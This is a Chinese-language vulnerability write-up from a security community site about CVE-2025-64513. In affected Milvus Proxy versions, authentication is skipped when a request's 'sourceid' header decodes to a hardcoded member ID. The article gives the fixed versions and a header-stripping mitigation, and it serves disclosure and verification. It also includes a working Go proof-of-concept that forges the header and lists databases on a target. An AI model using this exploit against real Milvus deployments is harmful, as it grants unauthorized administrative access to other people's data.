




# Milvus Proxy身份验证绕过(CVE-2025-64513)漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/19348  
> **文章ID**: 19348

---

# 漏洞描述

> Milvus 是一个为生成式人工智能应用程序构建的开源向量数据库。未经身份验证的攻击者可以利用早于 2.4.24、2.5.21 和 2.6.5 版本的漏洞绕过 Milvus Proxy 组件中的所有身份验证机制，获得对 Milvus 集群的全面管理权限。这使得攻击者能够读取、修改或删除数据，并执行特权管理操作，如数据库或集合管理。这一问题已在 Milvus 2.4.24、2.5.21 和 2.6.5 版本中得到修复。如果无法立即升级，可以通过在从网关、API网关或负载均衡器级别到达 Milvus Proxy 之前，删除所有传入请求的 sourceID 标头来实施临时缓解措施。这样可以防止攻击者利用绕过身份验证的行为。[1]

# 漏洞分析

根据漏洞描述、漏洞修复的PR[2]、commit信息上都能得知该认证绕过漏洞与请求头的`sourceID`关联重大，分析修改前的`authentication_interceptor.go`代码能够发现在处理Grpc请求的认证拦截器中会通过`validSourceID`方法判断是否需要认证。



该方法首先对传入的请求头`sourceid`进行Base64解码然后判断与`util.MemberCredID`是否一致。而当该方法返回true时则不会进入if分支中进行其余的认证。



`MemberCredID`的值为硬编码的`@@milvus-member@@`。



# 漏洞复现

根据官方提供的SDK编写POC，可验证漏洞是否存在以及数据库信息。

```
package main

import (
    "context"
    "encoding/base64"
    "fmt"
    "log"
    "time"
    "google.golang.org/grpc"
    "google.golang.org/grpc/metadata"
    "github.com/milvus-io/milvus-proto/go-api/v2/milvuspb"
)

func main() {
    // 目标Milvus服务器地址
  target := "localhost:19530"
    memberCredID := "@@milvus-member@@"
    encodedSourceID := base64.StdEncoding.EncodeToString([]byte(memberCredID))
    
    // 建立gRPC连接
    fmt.Printf("连接到 Milvus: %s
", target)
    conn, err := grpc.Dial(target, grpc.WithInsecure(), grpc.WithBlock(), grpc.WithTimeout(5*time.Second))
    if err != nil {
        log.Fatalf("连接失败: %v", err)
    }
    defer conn.Close()
    
    client := milvuspb.NewMilvusServiceClient(conn)
    md := metadata.New(map[string]string{
        "sourceid": encodedSourceID, // 注意：metadata中的key是小写
    })
    ctx := metadata.NewOutgoingContext(context.Background(), md)
    
    fmt.Println("开始测试认证绕过...")
    
    // 1. 检查连接状态
    fmt.Println("
1. 检查连接状态...")
    healthReq := &milvuspb.CheckHealthRequest{}
    healthResp, err := client.CheckHealth(ctx, healthReq)
    if err != nil {
        log.Printf("健康检查失败: %v", err)
    } else {
        fmt.Printf("健康检查成功! 状态: %v
", healthResp.IsHealthy)
    }
    
    // 2. 列出所有数据库
    fmt.Println("
2. 获取数据库列表...")
    dbReq := &milvuspb.ListDatabasesRequest{}
    dbResp, err := client.ListDatabases(ctx, dbReq)
    if err != nil {
        log.Printf("列出数据库失败: %v", err)
    } else {
        fmt.Printf("数据库列表: %v
", dbResp.DbNames)
    }
        
    // 3. 获取服务器版本信息
    fmt.Println("
4. 获取版本信息...")
    versionReq := &milvuspb.GetVersionRequest{}
    versionResp, err := client.GetVersion(ctx, versionReq)
    if err != nil {
        log.Printf("获取版本失败: %v", err)
    } else {
        fmt.Printf("Milvus版本: %s
", versionResp.GetVersion())
    }

    fmt.Println("
=== 漏洞验证完成 ===")
}
```



# 参考链接

[1] [Milvus Proxy 存在严重身份验证绕过漏洞（CVE-2025-64513）](https://avd.aliyun.com/detail?id=AVD-2025-64513)

[2] [enhance: skip check source id by aoiasd · Pull Request #45377 · milvus-io/milvus](https://github.com/milvus-io/milvus/pull/45377/commits/846e8ecb209034a4626028dace981962c8be25c9)
